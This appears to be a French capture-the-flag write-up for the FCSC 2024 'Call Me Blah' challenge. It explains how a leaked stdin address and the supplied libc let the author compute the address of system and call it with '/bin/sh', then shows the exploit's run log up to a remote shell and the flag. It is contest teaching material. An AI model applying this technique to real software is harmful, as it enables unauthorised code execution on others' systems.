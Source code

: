 # Call Me Blah

<img alt="énoncé du challenge" src="enonce.png" width=300>

Les fichiers fournis :
- [call-me-blah](call-me-blah)
- [call-me-blah.c](call-me-blah.c)
- [ld-2.36.so](ld-2.36.so)
- [libc-2.36.so](libc-2.36.so)

----

L'analyse de `call-me-blah.c` montre que le binaire :
- affiche l'adresse mémoire de `stdin`
- puis nous invite à saisir l'adresse `call_me` d'une fonction à appeler et la valeur de son paramètre `blah`.

Pour obtenir un shell, il suffirait que :
- `call_me` : soit l'adresse de la fonction `system`
- `blah` : la chaine `/bin/sh`

Or comme on dispose de la libc utilisée `libc-2.36.so` :
- on peut calculer l'adresse relative de `system` par rapport à `stdin` dans la libc
- utiliser l'adresse mémoire de `stdin` affichée à l'exécution, pour calculer celle de `system` (grâce à l'adresse relative de `system` par rapport à `stdin`)

La difficulté est ici de trouver à quel symbol `stdin` correspond dans la libc : il s'agit de `_IO_2_1_stdin_`

On se sert du script [`call-me-blah.py`](./call-me-blah.py) pour réaliser notre exploit. Une fois un shell obtenu sur le serveur, le flag est rapidement trouvé :

```sh
$ python3 call-me-blah.py REMOTE
[*] '/fcsc_2024/call-me-blah/call-me-blah'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] '/fcsc_2024/call-me-blah/libc-2.36.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/fcsc_2024/call-me-blah/ld-2.36.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 0x6e54ae3fca80
leak_stdin_address='6e54ae3fca80'
0x1d2a80
hex(system)='0x4c490'
hex(system)='0x6e54ae276490'
system=121309978125456
[*] Switching to interactive mode
$ ls
call-me-blah
flag.txt
$ cat flag.txt
FCSC{c22407092c870dfb9b6ee7e5277015de9c2a6fbc16a251237c037e73eb7a3a7e}
```
